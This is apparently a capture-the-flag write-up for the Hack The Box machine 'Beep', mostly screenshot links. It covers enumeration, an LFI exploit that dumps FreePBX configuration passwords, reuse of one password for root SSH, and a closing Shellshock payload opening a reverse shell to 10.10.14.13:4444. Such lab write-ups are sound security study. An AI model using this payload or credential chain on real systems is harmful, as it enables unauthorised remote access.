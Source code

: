 # Beep - 10.10.10.7

Created: May 8, 2021 10:17 AM

nmap scan:tas

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled.png)

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%201.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%201.png)

gobuster scan:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%202.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%202.png)

location to activate files + php in use:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%203.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%203.png)

FreePBX version:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%204.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%204.png)

users (might be non-relevant since its an image):

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%205.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%205.png)

roundcube webmail found:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%206.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%206.png)

vtiger CRM found:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%207.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%207.png)

and if thats not enough enumeration, on port 10000 we have webadmin:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%208.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%208.png)

on searchsploit:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%209.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%209.png)

the exploit:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2010.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2010.png)

on site:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2011.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2011.png)

AMPDBHOST=localhost
AMPDBENGINE=mysql

AMPDBNAME=asterisk

AMPDBUSER=asteriskuser

AMPDBPASS=amp109

AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

FOPWEBROOT=/var/www/html/panel
FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE

with LFI you can read any file on the system. passwd:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2012.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2012.png)

user flag:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2013.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2013.png)

we can log to the site with the above password:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2014.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2014.png)

with ssh we can log to root :: jEhdIekWmdjE

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2015.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2015.png)

shellshock as well on webmin:

![Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2016.png](Beep%20-%2010%2010%2010%207%20f2148a42c98d4369810ad9fc4023ec3f/Untitled%2016.png)

with

```bash
 () { :; }; bash -i >& /dev/tcp/10.10.14.13/4444 0>&1
```